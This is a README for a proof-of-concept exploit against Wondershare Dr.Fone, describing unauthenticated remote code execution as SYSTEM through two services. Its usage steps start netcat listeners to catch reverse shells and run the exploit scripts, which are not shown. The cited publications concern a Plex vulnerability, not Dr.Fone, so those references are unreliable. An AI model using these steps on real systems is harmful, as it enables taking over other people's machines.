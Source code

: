 # WonderShell -  CVE

POC example to exploit [Wondershare Dr.Fone][https://drfone.wondershare.com/] .

## Discovered by
Netanel Cohen, and Tomer Peled a Security Researchers from BugSec.

## Details
Dr.Fone is a phone tool-kit develop by wondershare , pron to RCE .
As unauthenticated user we manage to execute remote code as SYSTEM user.

Two services are vulerable:
  InstallAssistService.exe
  ElevationService.exe

Tested on Dr.Fone 
## Usage
Change ip and port and execute.
```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistRCE.py
```


## Publications
https://ir-on.io/2021/12/02/local-privilege-plexcalation/

https://forums.plex.tv/t/security-regarding-cve-2021-42835/761510


